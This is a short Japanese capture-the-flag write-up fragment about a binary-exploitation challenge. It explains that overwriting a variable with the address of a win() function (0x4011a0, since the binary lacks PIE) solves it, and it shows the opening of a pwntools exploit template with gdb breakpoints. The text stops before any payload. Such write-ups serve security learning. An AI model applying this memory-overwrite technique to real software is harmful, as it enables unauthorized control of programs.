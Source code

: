 <img src="/img/2024/03-27/Untitled%2052.png" width="550px" height="auto"> 

`x` を win() のアドレスで書き換えれば勝ち。

No PIEなのでwin()のアドレスはgdbなどで静的に取れる → 0x4011a0

以下のコードでOK。

```python
## Run local executable.
##   ./exploit.py LOCAL EXE=./executable
#
## Run remote (with local executable for addresses)
##   ./exploit.py HOST=example.com PORT=4141 EXE=/tmp/executable
#
## Run with GDB script.
##   ./exploit.py GDB
## --- (Edit GDB script if necessary) --------------------------------
gdbscript = """
b check_win
p win
b print_menu
c
""".format(
    **locals()
)
## -------------------------------------------------------------------

from pwn import *
```
